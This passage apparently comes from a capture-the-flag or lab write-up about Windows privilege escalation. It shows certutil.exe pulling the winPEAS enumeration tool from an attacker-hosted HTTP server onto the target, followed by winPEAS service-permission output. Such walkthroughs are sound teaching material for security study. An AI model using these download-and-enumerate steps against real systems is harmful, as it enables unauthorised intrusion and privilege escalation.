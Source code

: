 Maybe we can use [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) to enumerate the system.

Let's also move to the temp folder where we have write permissions. We also host the winPEAS file using `python -m SimpleHTTPServer 8000`.
We also used certutil.exe because there wasn't wget, curl etc.
```
c:\Windows\Temp>certutil.exe -urlcache -split -f "http://10.10.x.x:8000/winPEASx86.exe" winpeas.exe
certutil.exe -urlcache -split -f "http://10.10.x.x:8000/winPEASx86.exe" winpeas.exe
****  Online  ****
  000000  ...
  073400
CertUtil: -URLCache command completed successfully.
```
Though we managed to get winPEAS.exe in, we couldn't run it. Let's try the winPEAS.bat instead.
```
c:\Windows\Temp>certutil.exe -urlcache -split -f "http://10.10.x.x:8000/winPEAS.bat" winPEAS.bat
certutil.exe -urlcache -split -f "http://10.10.x.x:8000/winPEAS.bat" winPEAS.bat
****  Online  ****
  0000  ...
  8923
CertUtil: -URLCache command completed successfully.

c:\Windows\Temp>winPEAS.bat
winPEAS.bat

            ((,.,/((((((((((((((((((((/,  */
                                                                                                                                                                      
 [+] SERVICE BINARY PERMISSIONS WITH WMIC and ICACLS                                                                                                                  
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services                                                                                
C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_state.exe NT SERVICE\TrustedInstaller:(F)                                                                        
                                                                                                                                                                      
C:\Windows\Microsoft.NET\Framework\v2.0.50727\mscorsvw.exe NT SERVICE\TrustedInstaller:(F)                                                                            
                                                                                                                                                                      
C:\Windows\ehome\ehRecvr.exe NT SERVICE\TrustedInstaller:(F)                                                                                                          
                                                                                                                                                                      
C:\Windows\ehome\ehsched.exe NT SERVICE\TrustedInstaller:(F)                                                                                                          
                                                                                                                                                                      
C:\Windows\Microsoft.Net\Framework\v3.0\WPF\PresentationFontCache.exe NT SERVICE\TrustedInstaller:(F)                                                                 
                                                                                                                                                                      
C:\Windows\Microsoft.NET\Framework\v3.0\Windows Communication Foundation\infocard.exe NT SERVICE\TrustedInstaller:(F)                                                 
                                                                                                                                                                      
C:\Windows\Microsoft.NET\Framework\v3.0\Windows Communication Foundation\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)                                                
                                                                                                                                                                      
C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)                                                                                             
                                                                                                                                                                      
C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe BUILTIN\Administrators:(I)(F)                                                                    
                                                                                                                                                                      
C:\Program Files\VMware\VMware Tools\vmtoolsd.exe BUILTIN\Administrators:(I)(F)                                                                                       
                                                                                                                                                                      
C:\Program Files\Windows Media Player\wmpnetwk.exe NT SERVICE\TrustedInstaller:(F)                                                                                    
                                                                                                                                                                      
```